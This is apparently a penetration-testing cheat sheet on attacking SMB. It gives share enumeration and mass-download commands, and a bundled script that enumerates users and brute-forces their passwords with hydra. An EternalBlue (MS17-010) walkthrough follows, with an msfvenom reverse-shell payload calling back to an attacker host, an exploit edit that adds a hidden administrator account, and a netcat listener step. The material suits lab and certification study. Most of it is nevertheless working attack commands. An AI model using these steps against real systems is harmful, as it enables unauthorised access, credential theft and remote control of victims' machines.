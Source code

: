 # (139,445) SMB

<details>

<summary>List shares</summary>

```bash
smbclient -L //10.130.40.80 -N
```

```bash
crackmapexec smb 10.11.1.123 -u '' -p ''
crackmapexec smb 10.11.1.123 -u 'guest' -p ''
```

#### List all files in a share recursively

```bash
smbclient //10.11.1.231/home -N -c 'recurse;ls'
```

```bash
smbmap -H <ip> -R
```

</details>

<details>

<summary>SMB Version </summary>

```bash
smb_version 10.11.1.115
```

* Used this [tool](https://github.com/rewardone/OSCPRepo/blob/master/scripts/recon_enum/smbver.sh) but changed `tap0` to `tun0`

### SMB1

* Susceptible to known attacks (Eternal blue , wanna cry)
* Disabled by default in newer Windows version
* Versions:&#x20;
  * Windows 2000, XP and Windows 2003

### SMB2

* Reduced "chattiness" of SMB1
* Guest access disabled by default
* Versions:&#x20;
  * SMB2: Windows Vista SP1 and Windows 2008
  * SMB2.1: Windows 7 and Windows 2008 R2

### SMB3

* Guest access disabled
* Uses encryption (most secure)
* Versions:
  * Windows 8 and Windows 2012.

</details>

<details>

<summary>SMB Username Enumeration</summary>

```bash
nmap --script smb-enum-users.nse -p445 10.1.1.68
```

</details>

<details>

<summary>Connect to shares</summary>

```bash
smbclient //10.10.215.173/milesdyson -U=milesdyson
```

Spaces in share name

```bash
smbclient "//10.11.1.136/Bob Share/" -N
```

</details>

<details>

<summary>Copy all files from SMB share</summary>

```bash
smbclient //<IP>/<share>
> mask ""
> recurse
> prompt
> mget *
```

</details>

<details>

<summary>Enum4linux</summary>

```
enum4linux -a 10.11.67.208
```

</details>

<details>

<summary>Nmap</summary>

<pre class="language-bash"><code class="lang-bash"><strong>nmap -p 445 -script vuln 10.10.10.4
</strong></code></pre>

```bash
nmap --script=smb-enum-shares <ip>
```

```bash
nmap --script smb-* -p 139,445, 172.21.0.0
```

</details>

<details>

<summary>Mounting SMB Shares</summary>

Use `cp` to copy large files from SMB shares.

```bash
mount -t cifs //10.10.10.134/Backups /home/kali/Documents/htb/10.10.10.134/share
```

Specifying credentials:

```bash
mount -t cifs -o username=V.Ventz //192.168.231.175/"Password Audit" /home/kali/Documents/pg_practice/192.168.231.175/share
```

</details>

<details>

<summary>SMB to Reverse shell</summary>

<pre class="language-bash"><code class="lang-bash"><strong>/usr/share/doc/python3-impacket/examples/psexec.py username:password@hostIP
</strong></code></pre>

PsExec is a portable tool from Microsoft that lets you run processes remotely using any user's credentials

</details>

<details>

<summary>HAIL MARY SCRIPT</summary>

```bash
smb_allenum 10.10.10.10
```

```bash
#!/bin/bash
# smbenum 0.2 - This script will enumerate SMB using every tool in the arsenal
# SECFORCE - Antonio Quina
# All credits to Bernardo Damele A. G. <bernardo.damele@gmail.com> for the ms08-067_check.py script

IFACE="eth0"

if [ $# -eq 0 ]
    then
        echo "Usage: $0 <IP>"
        echo "eg: $0 10.10.10.10"
        exit
    else
        IP="$1"
fi

echo -e "\n########## Getting Netbios name ##########"
nbtscan -v -h $IP

echo -e "\n########## Checking for NULL sessions ##########"
output=`bash -c "echo 'srvinfo' | rpcclient $IP -U%"`
echo $output

echo -e "\n########## Enumerating domains ##########"
bash -c "echo 'enumdomains' | rpcclient $IP -U%"

echo -e "\n########## Enumerating password and lockout policies ##########"
polenum $IP

echo -e "\n########## Enumerating users ##########"
nmap -Pn -T4 -sS -p139,445 --script=smb-enum-users $IP
bash -c "echo 'enumdomusers' | rpcclient $IP -U%"
bash -c "echo 'enumdomusers' | rpcclient $IP -U%" | cut -d[ -f2 | cut -d] -f1 > /tmp/$IP-users.txt

echo -e "\n########## Enumerating Administrators ##########"
net rpc group members "Administrators" -I $IP -U%

echo -e "\n########## Enumerating Domain Admins ##########"
net rpc group members "Domain Admins" -I $IP -U%

echo -e "\n########## Enumerating groups ##########"
nmap -Pn -T4 -sS -p139,445 --script=smb-enum-groups $IP

echo -e "\n########## Enumerating shares ##########"
nmap -Pn -T4 -sS -p139,445 --script=smb-enum-shares $IP

echo -e "\n########## Bruteforcing all users with 'password', blank and username as password"
hydra -e ns -L /tmp/$IP-users.txt -p password $IP smb -t 1
rm /tmp/$IP-users.txt
```

</details>

<details>

<summary>MS17-010 (Eternal Blue)</summary>

CVE-2017-0143

1. `git clone https://github.com/worawit/MS17-010`
2.  Generate a reverse shell (`shell.exe`) using&#x20;

    ```
    msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.4 LPORT=443 -f exe > shell.exe
    ```
3. Edit the following section inside the `zzz_exploit.py` file.

<img src="../.gitbook/assets/image (24).png" alt="Before edit" data-size="original">

<img src="../.gitbook/assets/image (296).png" alt="After edit" data-size="original">

* If received `Not found accessible named pipe` --> use SMB Guest authentication creds instead (guest:)

### Create a user with admin rights (windows)

Sometimes it may not work, then need to add user and place user in administrator group.

```python
 def smb_pwn(conn, arch):
     smbConn = conn.get_smbconnection()
     service_exec(conn, r'cmd /c net user bill pass /add')
     service_exec(conn, r'cmd /c net localgroup administrators bill /add')
```

4. Setup nc listener and run `python2.7 zzz_exploit.py 10.10.10.4`

</details>
